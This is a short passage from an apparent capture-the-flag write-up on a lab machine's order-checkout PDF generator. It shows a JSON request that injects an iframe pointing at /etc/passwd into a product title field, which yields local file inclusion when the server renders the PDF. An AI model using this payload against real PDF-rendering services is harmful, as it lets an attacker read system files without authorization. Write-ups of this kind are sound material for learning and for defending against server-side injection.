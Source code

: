 <img src="/assets/writeups/2023-06-19-stocker/pdf.png" alt="Order checkout pdf">

## Exploitation

This file could be generate with HTML code (for example, with the [Puppeteer](https://www.bannerbear.com/blog/how-to-convert-html-into-pdf-with-node-js-and-puppeteer/) or the [html-pdf-node](https://www.npmjs.com/package/html-pdf-node) library). Trying to inject HTML code in the `title` parameter, we get a LFI:

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe width=600px height=600px src=/etc/passwd></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```


[^1]: Through the `Server` header.
[^2]: I discovered it in the P&D group of my College. We've needed to configure two subdomains of a web-app, and, researching, i've found about it. Make sure to [check the project!](https://github.com/entr0pie/api-tamagochi/tree/docker-nginx)
[^3]: If you want a deep dive into how this works, make sure to check the [David Hamann article](https://davidhamann.de/2023/02/24/beware-of-wildcard-paths-sudo/).